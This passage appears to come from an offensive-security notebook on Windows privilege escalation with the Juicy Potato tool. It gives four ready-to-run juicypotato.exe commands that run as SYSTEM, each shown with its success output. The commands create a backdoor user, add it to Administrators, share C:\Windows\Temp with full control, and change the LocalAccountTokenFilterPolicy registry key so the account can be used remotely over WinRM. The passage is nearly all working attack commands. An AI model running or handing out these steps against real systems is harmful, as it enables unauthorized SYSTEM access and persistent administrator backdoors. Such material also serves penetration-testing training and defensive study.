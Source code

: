 Then we can use any of this CLSIDs with our Juicy Potato binary in order to execute commands as another user, in this case NT AUTHORITY\\SYSTEM.

### Creating a User

For this particular scenario we will create a user with SYSTEM privileges. As we have the WINRM port open we can abuse of winrm service to login as such user.

The following are all the steps in order to create such user:
1.- Creation of the user:
```bash
juicypotato.exe -l 1337 -c "{CBC04AF1-25C7-4A4D-BB78-28284403510F}" -p c:\windows\system32\cmd.exe -a "net user shuciran2 shuciran123 /add" -t *
Testing {CBC04AF1-25C7-4A4D-BB78-28284403510F} 1337
......
[+] authresult 0
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

#Note If the user is not created with the previous command then this can be because the CLSID is not working as expected, we might execute the command with another CLSID.

2.- Adding the user to the Administrators group:
```bash
juicypotato.exe -l 1337 -c "{CBC04AF1-25C7-4A4D-BB78-28284403510F}" -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators shuciran2 /add" -t *
Testing {CBC04AF1-25C7-4A4D-BB78-28284403510F} 1337
......
[+] authresult 0
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

3.- Then we create an SMB Folder which will allow to give permissions to the user we just created:
```bash
juicypotato.exe -l 1337 -c "{CBC04AF1-25C7-4A4D-BB78-28284403510F}" -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL /add" -t *
Testing {CBC04AF1-25C7-4A4D-BB78-28284403510F} 1337
......
[+] authresult 0
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

```

4.- We modify the following registry key in order to allow the system to create another administrator account:

```bash
juicypotato.exe -l 1337 -c "{CBC04AF1-25C7-4A4D-BB78-28284403510F}" -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -t *
Testing {CBC04AF1-25C7-4A4D-BB78-28284403510F} 1337
......
[+] authresult 0
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
